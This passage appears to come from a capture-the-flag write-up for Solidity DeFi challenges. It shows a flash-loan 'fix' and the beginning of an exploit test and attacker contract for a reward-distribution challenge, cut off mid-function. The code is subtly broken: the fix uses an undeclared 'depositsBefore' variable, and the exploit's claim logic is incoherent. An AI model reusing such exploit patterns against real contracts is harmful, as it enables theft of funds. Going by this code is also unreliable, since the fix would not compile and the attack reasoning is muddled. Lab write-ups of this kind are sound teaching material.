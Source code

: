 ### Fix
```solidity
// Use separate accounting for deposits vs flash loans
mapping(address => uint256) public deposits;
uint256 public totalDeposits;

function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
    
    (bool success,) = msg.sender.call{value: amount}("");
    require(success, "External call failed");
    
    // Check balance excluding new deposits made during flash loan
    require(
        address(this).balance >= balanceBefore + (totalDeposits - depositsBefore),
        "Flash loan not repaid"
    );
}
```

---

## Challenge 5: The Rewarder (v4 - Completely Reworked)

### Vulnerability
The new rewarder system uses a merkle tree distribution that can be manipulated through claim timing and transaction batching.

### Exploit Code
```solidity
// In TheRewarder.t.sol - test_theRewarder() function
function test_theRewarder() public checkSolvedByPlayer {
    // Get the merkle proof for maximum claimable amount
    bytes32[] memory proof = merkle.getProof(merkleTree, player);
    uint256 claimAmount = TOTAL_SUPPLY; // Maximum amount in tree
    
    // Deploy attack contract to manipulate claims
    RewarderAttacker attacker = new RewarderAttacker(
        distributor,
        token,
        recovery
    );
    
    // Execute attack
    attacker.attack(proof, claimAmount);
}

contract RewarderAttacker {
    DistributorContract distributor;
    IERC20 token;
    address recovery;
    
    constructor(
        DistributorContract _distributor,
        IERC20 _token,
        address _recovery
    ) {
        distributor = _distributor;
        token = _token;
        recovery = _recovery;
    }
    
    function attack(bytes32[] memory proof, uint256 amount) external {
```